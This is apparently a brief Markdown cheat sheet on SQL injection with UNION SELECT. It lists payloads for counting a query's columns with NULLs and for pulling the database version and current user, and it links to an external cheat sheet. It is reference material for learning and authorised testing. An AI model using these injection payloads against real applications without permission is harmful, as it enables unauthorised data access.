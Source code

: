 # SQL Injection


## Union Select
When working with union select, you will want to determine the number of query within the table. You can do this with the following

**NOTE THAT `-- -` WONT COMMENT ON ALL DBMS.... AMEND THIS DEPENDING ON YOUR USE CASE** 

`' UNION SELECT NULL-- -`
`' UNION SELECT NULL,NULL-- -`

Essentially, you can add nulls until it errors about columns not aligning.
From there you can start pulling data like so: 

**Return VERSION**
`'UNION SELECT NULL,@@VERSION-- -`

**RETURN CURRENT USER**
`'UNION SELECT NULL,CURRENT_USER-- -`


## Resources

- [https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)